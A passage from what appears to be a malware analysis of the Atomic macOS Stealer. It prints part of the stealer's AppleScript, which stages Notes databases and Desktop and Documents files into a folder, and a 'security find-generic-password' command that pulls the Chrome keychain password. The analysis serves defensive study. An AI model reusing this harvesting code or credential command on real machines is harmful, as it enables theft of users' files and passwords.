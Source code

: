 ~~~bash
            set notesFiles to {file "NoteStore.sqlite", file "NoteStore.sqlite-shm", file "NoteStore.sqlite-wal"} of notesFolder 
            repeat with aFile in notesFiles 
                set fileSize to size of aFile 
                if (bankSize + fileSize) < 10 * 1024 * 1024 then 
                    try 
                        duplicate aFile to folder destinationFolderPath with replacing 
                        set bankSize to bankSize + fileSize 
                    end try 
                else 
                    exit repeat 
                end if 
            end repeat 

        end try 
        
        set desktopFiles to every file of desktop 
        set documentsFiles to every file of folder "Documents" of (path to home folder) 
        repeat with aFile in (desktopFiles & documentsFiles) 
            set fileExtension to name extension of aFile 
            if fileExtension is in extensionsList then 
                set fileSize to size of aFile 
                if (bankSize + fileSize) < 10 * 1024 * 1024 then 
                    try 
                        duplicate aFile to folder destinationFolderPath with replacing 
                        set bankSize to bankSize + fileSize 
                    end try 
                else 
                    exit repeat 
                end if 
            end if 
        end repeat 
    end try 
end tell'

~~~

It looks like that the execution of the **FileGrabber** osascript was disabled, but the malware is still looking for the **~/fg/** folder when collecting informations. I suppose it was disabled in order to not save files on disk and to not allarm the user with an additional pop-up.


The **ChronosMasiter** function is used to find Chrome passwords in the keychain. It executes the following command by passing it as parameter to the **shellermy** function.

~~~bash
security 2>&1 > /dev/null find-generic-password -ga 'Chrome' | awk '{print $2}'
~~~

When the command is executed a system pop-up spawns because macOS wants the user to enter the password to access the keychain.

{{< image src="img/2024-03-08-atomic-macos-stealer-amos-analysis/img18.png" caption="Figure 18 - Keychain Access" wrapper="text-center">}}
